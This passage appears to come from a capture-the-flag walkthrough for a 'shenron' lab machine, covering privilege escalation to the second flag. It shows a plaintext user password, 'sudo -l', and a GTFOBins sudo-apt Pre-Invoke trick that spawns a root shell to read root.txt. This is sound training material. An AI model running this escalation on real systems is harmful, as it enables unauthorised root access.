




5.2 Look for user's privileges (2nd flag)
1. You need to know shenron's privileges.
Password: “
YoUkNowMyPaSsWoRdIsToStRoNgDeAr”shenron@shenron:/tmp$sudo -l
Output:

You can execute “apt” command for all users.
2. From https://gtfobins.github.io/gtfobins/apt/.

We are going to use the thrid option but with a “/bin/bash” terminal.
Type the following command on your “shell”.
shenron@shenron:/tmp$sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash
Output:

You have a “root” shell.
3. Run the following commands.
root@shenron:/tmp#cd /root
root@shenron:/tmp#ls
root@shenron:/tmp#cat root.txt
root@shenron:/tmp#ls
root@shenron:/tmp#cat root.txt
Output:
